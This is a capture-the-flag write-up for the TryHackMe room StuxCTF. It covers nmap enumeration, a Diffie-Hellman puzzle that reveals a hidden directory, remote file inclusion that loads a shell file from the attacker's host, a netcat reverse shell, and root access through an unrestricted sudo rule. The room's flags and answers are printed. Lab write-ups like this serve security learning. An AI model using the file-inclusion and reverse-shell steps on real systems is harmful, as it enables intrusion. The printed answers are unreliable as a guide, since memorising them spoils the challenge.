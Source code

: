 # StuxCTF

Crypto, serealization, priv scalation and more ...!

[StuxCTF](https://tryhackme.com/room/stuxctf)

## Topic's

- Network Enumeration
- Web Poking
- Cryptography
  - AES
- Local File Inclusion
- Misconfigured Binaries

## Appendix archive

Password: `1 kn0w 1 5h0uldn'7!`

## Task 1 StuxCTF

Read user.txt and root.txt

```
kali@kali:~/CTFs/tryhackme/StuxCTF$ sudo nmap -A -sS -sC -sV -O 10.10.66.221
[sudo] password for kali:
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-13 16:43 CEST
Nmap scan report for 10.10.66.221
Host is up (0.037s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e8:da:b7:0d:a7:a1:cc:8e:ac:4b:19:6d:25:2b:3e:77 (RSA)
|   256 c1:0c:5a:db:6c:d6:a3:15:96:85:21:e9:48:65:28:42 (ECDSA)
|_  256 0f:1a:6a:d1:bb:cb:a6:3e:bd:8f:99:8d:da:2f:30:86 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry
|_/StuxCTF/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Default Page
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=10/13%OT=22%CT=1%CU=41085%PV=Y%DS=2%DC=T%G=Y%TM=5F85BD
OS:37%P=x86_64-pc-linux-gnu)SEQ(SP=101%GCD=1%ISR=10D%TI=Z%CI=I%II=I%TS=8)OP
OS:S(O1=M508ST11NW7%O2=M508ST11NW7%O3=M508NNT11NW7%O4=M508ST11NW7%O5=M508ST
OS:11NW7%O6=M508ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)EC
OS:N(R=Y%DF=Y%T=40%W=6903%O=M508NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=
OS:AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(
OS:R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%
OS:F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N
OS:%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%C
OS:D=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 554/tcp)
HOP RTT      ADDRESS
1   36.03 ms 10.8.0.1
2   36.33 ms 10.10.66.221

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.30 seconds
```

[http://10.10.66.221/robots.txt](http://10.10.66.221/robots.txt)

```
# robots.txt generated by StuxCTF
# Diffie-Hellman
User-agent: *
Disallow:
Disallow: /StuxCTF/
```

[http://10.10.66.221/StuxCTF/](http://10.10.66.221/StuxCTF/)

[view-source:http://10.10.66.221/](view-source:http://10.10.66.221/)

```
<html>
	<head>
		<title>Default Page</title>
	</head>
	<body>
		<!-- The secret directory is...
		p: 9975298661930085086019708402870402191114171745913160469454315876556947370642799226714405016920875594030192024506376929926694545081888689821796050434591251;
		g: 7;
		a: 330;
		b: 450;
		g^c: 6091917800833598741530924081762225477418277010142022622731688158297759621329407070985497917078988781448889947074350694220209769840915705739528359582454617;
		-->
		is blank....
	</body>
</html>
```

p: `9975298661930085086019708402870402191114171745913160469454315876556947370642799226714405016920875594030192024506376929926694545081888689821796050434591251`;
g: `7`;
a: `330`;
b: `450`;
g^c: `6091917800833598741530924081762225477418277010142022622731688158297759621329407070985497917078988781448889947074350694220209769840915705739528359582454617`;

[http://10.10.66.221/47315028937264895539131328176684350732577039984023005189203993885687328953804202704977050807800832928198526567069446044422855055/](http://10.10.66.221/47315028937264895539131328176684350732577039984023005189203993885687328953804202704977050807800832928198526567069446044422855055/)

```html
<!DOCTYPE html>
    <head>
        <title>StuxCTF</title>
	<meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial-scale=1">
        <link rel="stylesheet" href="assets/css/bootstrap.min.css" />
        <link rel="stylesheet" href="assets/css/style.css" />
    </head>
        <body>
        <nav class="navbar navbar-default navbar-fixed-top">
          <div class="container">
            <div class="navbar-header">
              <button type="button" class="navbar-toggle collapsed" data-toggle="collapse" data-target="#navbar" aria-expanded="false" aria-controls="navbar">
                <span class="sr-only">Toggle navigation</span>
              </button>
              <a class="navbar-brand" href="index.php">Home</a>
            </div>
          </div>
        </nav>
        <!-- hint: /?file= -->
        <div class="container">
            <div class="jumbotron">
				<center>
					<h1>Follow the white rabbit..</h1>
				</center>
            </div>
        </div>
        <script src="assets/js/jquery-1.11.3.min.js"></script>
        <script src="assets/js/bootstrap.min.js"></script>
    </body>
</html>
```

`/47315028937264895539131328176684350732577039984023005189203993885687328953804202704977050807800832928198526567069446044422855055/?file=http://10.8.106.222:80/shell.txt`

`/47315028937264895539131328176684350732577039984023005189203993885687328953804202704977050807800832928198526567069446044422855055/n.php`

```
kali@kali:~/CTFs/tryhackme/StuxCTF$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.8.106.222] from (UNKNOWN) [10.10.66.221] 35024
whoami
www-data
pwd
/var/www/html/47315028937264895539131328176684350732577039984023005189203993885687328953804202704977050807800832928198526567069446044422855055
cd /home
ls
grecia
cd grecia
ls
user.txt
cat user.txt
0b6044b7807dd100b9e30f1bd09db53f
```

```
sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (ALL) NOPASSWD: ALL
sudo su
whoami
root
cd /root
ls
root.txt
cat root.txt
0028454003b42601548df551b738976c
```

1. user.txt

`0b6044b7807dd100b9e30f1bd09db53f`

2. root.txt

`0028454003b42601548df551b738976c`

3. What is the hidden directory? HINT: `g ^ a mod p, g ^ b mod p, g ^ C mod p` first 128 characters ...

`/47315028937264895539131328176684350732577039984023005189203993885687328953804202704977050807800832928198526567069446044422855055`
